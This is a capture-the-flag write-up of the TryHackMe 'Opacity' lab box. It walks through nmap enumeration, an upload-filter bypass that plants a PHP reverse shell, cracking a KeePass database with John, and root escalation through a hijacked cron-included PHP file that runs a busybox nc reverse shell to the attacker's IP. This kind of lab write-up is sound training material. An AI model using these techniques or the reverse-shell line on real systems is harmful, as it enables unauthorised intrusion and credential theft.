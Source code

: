 # THM - Opacity

#### Ip: 10.10.182.105
#### Name: Opacity
#### Difficulty: Easy

----------------------------------------------------------------------

opacity.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ sudo nmap -p-  --min-rate 10000 10.10.182.105
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 09:10 CDT
Nmap scan report for 10.10.182.105
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ sudo nmap -sC -sV 10.10.182.105 -p 22,80,139,445
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 09:11 CDT
Nmap scan report for 10.10.182.105
Host is up (0.26s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-08-31T14:11:37
|_  start_date: N/A
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: -1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.95 seconds
```

Taking a look at the site we find a basic login page:

![site.png

Lets try some directory fuzzing with Feroxbuster:

![ferox.png

The `/cloud` directory seems interesting. 

Navigating to the directory we find an image upload page:

![cloud.png

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update the IP and port fields:

php.png

This took some trial and error, but lets go ahead and save the file as shell.php, but when we upload it lets bypass the filtering by using http://10.2.6.181/shell.php#.png

Looking back at our listener and web server we can see that worked!

shell.png

Trying to grab the local.txt we get a permission denied. Looks like we'll have to keep enumerating:

```text
www-data@opacity:/home/sysadmin$ cat local.txt
cat: local.txt: Permission denied
```

Browsing around a bit more we find a KeePass file in `/opt`. Lets start a Python HTTP server on the target and grab the file on our attacking machine using wget:

wget.png

Once back on our machine we can try to access the contents, but it looks like it's password protected:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ kpcli --kdb=dataset.kdbx            
Provide the master password:
```

Lets use John to crack this:

First we'll need to get it in a format John can work with:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ keepass2john dataset.kdbx > hash.txt
```

Then we can use John to crack the password:

john.png

Cool, now we can access the KeePass file using kpcli:

kpcli.png

Cool, looks like we've now get the sysadmin user's password!

back in our shell we can issue `su sysadmin` and then grab the user.txt flag:

user_flag.png

### Privilege Escalation

Taking a look in the `/scripts` folder we see an interesting script that is owned by root:

```text
sysadmin@opacity:~/scripts$ cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

We see that it is calling the backup.inc.php file in `/lib` and that this must be being executed by a cronjob. We can't edit the script here so we'll need to delete it and create a new backup.inc.php in the `sysadmin` directory, insert a reverse shell, and then copy the file back to `/lib` to be executed by the script. 

```text
sysadmin@opacity:~$ rm scripts/lib/backup.inc.php
sysadmin@opacity:~$ vi backup.inc.php


<?php


ini_set('max_execution_time', 600);
ini_set('memory_limit', '1024M');


function zipData($source, $destination) {
        system('/usr/bin/busybox nc 10.2.6.181 8888 -e bash');
}
?>

<snip>

sysadmin@opacity:~$ chmod +x backup.inc.php
sysadmin@opacity:~$ cp backup.inc.php /home/sysadmin/scripts/lib/
```
And then after waiting just a minute or two for the script to execute, we caught a shell back as root and were able to grab the final flag:

root_flag.png

Thanks for following along!

-Ryan